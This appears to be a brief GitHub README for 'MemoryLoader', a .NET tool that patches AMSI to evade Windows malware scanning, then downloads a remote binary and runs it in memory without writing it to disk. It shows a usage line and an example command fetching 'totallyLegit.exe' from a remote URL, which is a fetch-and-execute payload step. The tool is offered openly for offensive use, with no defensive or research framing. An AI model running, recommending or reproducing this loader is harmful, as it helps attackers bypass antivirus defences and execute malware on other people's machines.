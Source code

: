 # MemoryLoader

A .NET binary loader that bypasses AMSI checks. It will patch AMSI, download a remote binary, and execute it in memory without the binary every hitting disk.

Usage:

`./MemoryLoader.exe [URL_TO_PAYLOAD]`

Example:  
`./MemoryLoader.exe http://example.com/totallyLegit.exe`
